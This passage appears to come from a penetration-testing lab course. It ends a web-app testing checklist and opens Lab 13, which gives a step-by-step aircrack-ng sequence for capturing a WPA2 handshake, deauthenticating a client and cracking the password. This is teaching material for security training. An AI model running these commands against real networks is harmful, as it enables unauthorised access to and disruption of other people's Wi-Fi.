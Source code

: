2. **Authentication Testing**

    - Weak credentials
    - SQL injection
    - Session management

3. **Authorization Testing**

    - IDOR vulnerabilities
    - Privilege escalation
    - Access control bypass

4. **Input Validation**

    - XSS (reflected, stored, DOM)
    - Command injection
    - File upload

5. **Business Logic**
    - Race conditions
    - Workflow manipulation
    - Price manipulation

**Deliverable**: Professional pentest report

---

### 🎯 Lab 13: Wireless Network Hacking

**Duration**: 90 minutes  
**Objective**: Compromise wireless networks  
**Skills**: WPA/WPA2 cracking, evil twin, deauth attacks

```bash
synos-lab start "Wireless Hacking"
```

**WPA2 Cracking**:

```bash
# Enable monitor mode
airmon-ng start wlan0

# Capture handshake
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauthenticate client
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack handshake
aircrack-ng -w rockyou.txt capture-01.cap
```

---

## 4. Advanced Labs
